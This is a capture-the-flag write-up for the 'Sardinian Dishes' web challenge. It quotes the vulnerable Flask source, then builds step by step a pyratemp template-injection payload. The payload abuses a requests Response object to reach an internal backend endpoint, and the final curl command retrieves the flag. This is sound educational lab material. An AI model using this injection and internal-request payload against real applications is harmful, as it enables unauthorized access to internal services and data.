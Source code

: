 # Sardinian Dishes

## Description

> I think that a friend of mine is using this recipe sharing website to sell illegal cheese. Can you find a way to access the forbidden recipe?
>
> And while you're there, share some of you <s>worst</s> best local recipes.
>
> [https://edition.cnn.com/travel/article/casu-marzu-worlds-most-dangerous-cheese/index.html](https://edition.cnn.com/travel/article/casu-marzu-worlds-most-dangerous-cheese/index.html)
>
> Website: [http://sardinianrecipes.challs.srdnlen.it](http://sardinianrecipes.challs.srdnlen.it)
>
> Attachments: sardiniandishes.zip

<details><summary>attached sardiniandishes.zip</summary>

```console
$ unzip -t sardiniandishes.zip
Archive:  sardiniandishes.zip
    testing: src/backend/             OK
    testing: src/backend/Dockerfile   OK
    testing: src/backend/src/         OK
    testing: src/backend/src/app.py   OK
    testing: src/backend/src/schema.sql   OK
    testing: src/frontend/            OK
    testing: src/frontend/Dockerfile   OK
    testing: src/frontend/src/        OK
    testing: src/frontend/src/app.py   OK
    testing: src/frontend/src/static/   OK
    testing: src/frontend/src/static/css/   OK
    testing: src/frontend/src/static/css/bootstrap-dark.min.css   OK
    testing: src/frontend/src/templates/   OK
    testing: src/frontend/src/templates/index.html   OK
    testing: src/frontend/src/templates/suggest.html   OK
No errors detected in compressed data of sardiniandishes.zip.
```

</details>

## Setup

```bash
sed -i -e 's/web-dish-backend/backend/' src/frontend/src/app.py
docker-compose --file src/docker-compose.yml --project-directory . up --build
```

## Solution

The web application architecture overview for this challenge is the following:

```text
client <--HTTP--> frontend(Python Flask) <--HTTP--> backend(Python Flask)
```

Looking at the attached source code.

```sql
-- src/backend/src/schema.sql
INSERT INTO illegalrecipes (name, details) VALUES ('casu marzu', 'srdnlen{REDACTED}');
```

The flag is the details column value in the illegalrecipes table in the backend DB.

In backend:

```python
# src/backend/src/app.py
@app.get('/secret')
def secret():
    cur = get_db().execute("SELECT details FROM illegalrecipes WHERE name='casu marzu'")
    recipe = cur.fetchone()
    cur.close()
    return str(recipe)

@app.get('/recipe')
def getRecipe():
    name = request.args.get('name')
    cur = get_db().execute("SELECT details FROM recipes WHERE name=?", (name,))
    recipe = cur.fetchone()
    cur.close()
    return str(recipe)
```

In frontend:

```python
# src/frontend/src/app.py
@app.route('/recipe')
def get_product():
  name = request.args.get('name')
  if name == "casu marzu":
    resp = make_response("Forbidden - CASU MARZU IS ILLEGAL, YOU CAN'T COOK IT!")
    resp.status_code = 403
    return resp
  else:
    res = requests.get(f"http://web-dish-backend:5000/recipe?name={name}")
    template = pyratemp.Template(f"The recipe for {name} is at @! res.text !@")
    return template(res=res)
```

If I can send a /secret request from the frontend to the backend, I can get the flag.
However, the client has only controllable the name query string of the /recipe endpoint in the frontend.
Additionally, it appears that the /recipe endpoint in the frontend can only make a /recipe request to the backend.
I will take a closer look to see if I can do something with the /recipe endpoint in the frontend.

```python
    template = pyratemp.Template(f"The recipe for {name} is at @! res.text !@")
    return template(res=res)
```

[pyratemp](https://pypi.org/project/pyratemp/) template engine is used.
I read [the documentation for this template engine](https://www.simple-is-better.org/template/pyratemp.html) and found that it forbids access to names beginning with `_`.
This means that I can't do like `''.__class__.__mro__[-1].blah.blah`

[simple is better - pyratemp](https://www.simple-is-better.org/template/pyratemp.html#evaluation)

> (snip) It also forbids access to names beginning with _, to prevent things like 0 .__class__, which could be used to break out of the sandbox.

Also, I use `$! ... !$` instead of `@! ... !@` for easy viewing.

> @!EXPR!@ escaped substitution: special characters are escaped
>
> $!EXPR!$ unescaped/raw substitution

Tested in my local environment:

```bash
pip3 install pyratemp
```

```python
>>> import pyratemp
>>> pyratemp.__version__
'0.3.2'
>>> template = pyratemp.Template("$! ''.__class__ !$")
Traceback (most recent call last):
(snip)
NameError: Name '__class__' is not allowed in '''.__class__'.
```

Certainly, I can't use `_`.

> dir()       [new in 0.3.1 / 0.2.4]

Looking at the documentation, I found `dir()` is available.
I see what variables can be used by using `dir()`.

```python
>>> import requests
>>> requests.__version__
'2.31.0'
>>> res = requests.get("http://example.com")
>>> template = pyratemp.Template("$! dir() !$")
>>> template(res=res)
"['res']"
```

res object - requests.Response object - is available because it is passed as an argument such as `template(res=res)`.
I see if I can send a /secret request to the backend, by using the res object.

```python
>>> from pprint import pprint
>>> pprint(dir(res))
(snip)
 'connection',
(snip)
 'request',
(snip)
>>> res.connection
<requests.adapters.HTTPAdapter object at 0x7f129c070a10>
>>> res.request
<PreparedRequest [GET]>
```

res.connection and res.request are interesting.
I see these pydoc by using `help(res.connection)` and `help(res.request)`.
I can also see the same document with `python3 -m pydoc requests.adapters.HTTPAdapter` and `python3 -m pydoc requests.PreparedRequest` command.

```text
Help on HTTPAdapter in module requests.adapters object:

class HTTPAdapter(BaseAdapter)
 |  HTTPAdapter(pool_connections=10, pool_maxsize=10, max_retries=0, pool_block=False)
(snip)
 |  send(self, request, stream=False, timeout=None, verify=True, cert=None, proxies=None)
 |      Sends PreparedRequest object. Returns Response object.
 |
 |      :param request: The :class:`PreparedRequest <PreparedRequest>` being sent.
 |      :param stream: (optional) Whether to stream the request content.
 |      :param timeout: (optional) How long to wait for the server to send
 |          data before giving up, as a float, or a :ref:`(connect timeout,
 |          read timeout) <timeouts>` tuple.
 |      :type timeout: float or tuple or urllib3 Timeout object
 |      :param verify: (optional) Either a boolean, in which case it controls whether
 |          we verify the server's TLS certificate, or a string, in which case it
 |          must be a path to a CA bundle to use
 |      :param cert: (optional) Any user-provided SSL certificate to be trusted.
 |      :param proxies: (optional) The proxies dictionary to apply to the request.
 |      :rtype: requests.Response
```

```text
Help on PreparedRequest in module requests.models object:

class PreparedRequest(RequestEncodingMixin, RequestHooksMixin)
(snip)
 |  prepare_url(self, url, params)
 |      Prepares the given HTTP URL.
```

PreparedRequest object can be used by res.request and the request URL can be set by the prepare_url method.
Also, HTTPAdapter object can be used by res.connection and I can send a request by the send method with PreparedRequest object.

Tested:

```python
>>> res.request.prepare_url('http://httpbin.org/status/201', {})
>>> res.connection.send(res.request).status_code
201
```

I will do the same thing for /secret on the backend.

```console
$ curl -G http://localhost/recipe --data-urlencode 'name=$! res.request.prepare_url("http://backend:5000/secret", {}) !$ $! res.connection.send(res.request).text !$"'
The recipe for None ('srdnlen{there_are_some_dirty_worms_in_my_template}',)" is at None
```

Got the flag.
